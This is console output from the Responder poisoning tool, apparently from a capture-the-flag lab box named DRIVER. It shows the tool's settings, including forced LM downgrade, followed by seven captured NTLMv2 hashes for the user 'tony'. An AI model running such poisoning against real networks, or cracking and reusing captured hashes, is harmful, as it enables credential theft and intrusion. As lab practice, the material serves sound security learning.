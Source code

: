 [+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [ON]
    Fingerprint hosts          [ON]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.8]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-WUTN47ZZFLT]
    Responder Domain Name      [8UYL.LOCAL]
    Responder DCE-RPC Port     [46942]

[+] Listening for events...                                                                                                                                                                                                                


[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:79effd63288ad335:13AF3BE8A0330EE6D7F1CCE21A7BB86C:010100000000000026A1B19F4CEED701C3D40F140875353400000000020000000000000000000000
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:5516d866b64ca220:C581F403958D002F6B0BAA60E1326CB1:0101000000000000FD14E69F4CEED7012F27684BBBFBDA7D00000000020000000000000000000000
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:d66531e7a510e341:32B1D62C5104987A95EF19F0FD78C778:0101000000000000302918A04CEED701CA6CBFDB9B374B9500000000020000000000000000000000
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:04071f9cf022a85f:253C3E8BEFEB36F9FA27855A72ABEDB5:0101000000000000A1374AA04CEED70125BF7BC23D2CE74500000000020000000000000000000000
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:12a45028b427fda3:E3C878E17A7FB29AE168924A87714F61:0101000000000000B5E779A04CEED70176D1C5115AEE33C600000000020000000000000000000000
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:c7df094fabc0d16e:18576ADFC47526DC0CBAA2829C66F9B2:010100000000000082F9ABA04CEED7010C67C24EF24D7AEA00000000020000000000000000000000
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:7ea7545b4786c789:6C992007E05810D18BA8D075E00F1209:0101000000000000210CDEA04CEED7015D490E8C401F10F600000000020000000000000000000000
